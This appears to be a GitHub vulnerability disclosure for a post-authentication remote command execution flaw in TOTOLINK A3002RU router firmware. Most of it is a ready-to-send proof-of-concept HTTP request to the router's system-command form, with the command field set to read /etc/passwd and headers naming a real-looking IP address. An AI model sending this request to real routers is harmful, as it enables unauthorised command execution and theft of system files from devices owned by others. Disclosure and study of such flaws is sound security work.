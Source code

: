 ## TOTOLINK-A3002RU-RCE

Firmware version: V2.0.0-B20190902.1958

### description
TOTOLINK-A3002RU has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/920fa305-e48d-42d2-bd02-61a4ea49bb43
